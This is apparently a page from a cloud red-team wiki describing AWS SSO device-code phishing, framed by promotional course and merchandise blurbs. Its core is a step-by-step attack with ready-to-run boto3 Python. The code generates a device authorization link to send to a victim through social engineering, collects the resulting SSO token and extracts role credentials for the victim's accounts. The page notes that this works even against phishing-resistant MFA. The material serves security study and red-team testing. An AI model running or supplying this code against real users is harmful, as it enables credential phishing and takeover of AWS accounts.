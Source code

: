 # AWS - Identity Center & SSO Unauthenticated Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## AWS Device Code Phishing

Initially proposed in [**this blog post**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), it's possible to send a **link** to a user using AWS SSO that if the **user accepts** the attacker will be able to get a **token to impersonate the user** and access all the roles the user is able to access in the **Identity Center**.

In order to perform this attack the requisites are:

* The victim needs to use **Identity Center**
* The attacker must know the **subdomain** used by the victim `<victimsub>.awsapps.com/start`

Just with the previous info, the **attacker will be able to send a link to the user** that if **accepted** will grant the **attacker access over the AWS user** account.

### Attack

1. **Finding the subdomain**

The first step of the attacker is to find out the subdomain the victim company is using in their Identity Center. This can be done via **OSINT** or **guessing + BF** as most companies will be using their name or a variation of their name here.

With this info, it's possible to get the region where the Indentity Center was configured with:

```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```

2. **Generate the link for the victim & Send it**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
For the demo, run this code in a python console and do not exit it as later you will need some objects to get the token:

```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
    clientName = 'attacker',
    clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
    clientId=client_id,
    clientSecret=client_secret,
    startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```

Send the generated link to the victim using you awesome social engineering skills!

3. **Wait until the victim accepts it**

If the victim was **already logged in AWS** he will just need to accept granting the permissions, if he wasn't, he will need to **login and then accept granting the permissions**.\
This is how the promp looks nowadays:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Get SSO access token**

If the victim accepted the prompt, run this code to **generate a SSO token impersonating the user**:

```python
token_response = sso_oidc.create_token(
    clientId=client_id,
    clientSecret=client_secret,
    grantType="urn:ietf:params:oauth:grant-type:device_code",
    deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```

The SSO access token is **valid for 8h**.

5. **Impersonate the user**

```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
        accessToken=sso_token,
        maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
        accessToken=sso_token,
        accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
        accessToken=sso_token,
        roleName=<role_name>,
        accountId=<account_id>
)
sts_creds.get('roleCredentials')
```

### Phishing the unphisable MFA

It's fun to know that the previous attack **works even if an "unphisable MFA" (webAuth) is being used**. This is because the previous **workflow never leaves the used OAuth domain**. Not like in other phishing attacks where the user needs to supplant the login domain, in the case the device code workflow is prepared so a **code is known by a device** and the user can login even in a different machine. If accepted the prompt, the device, just by **knowing the initial code**, is going to be able to **retrieve credentials** for the user.

For more info about this [**check this post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
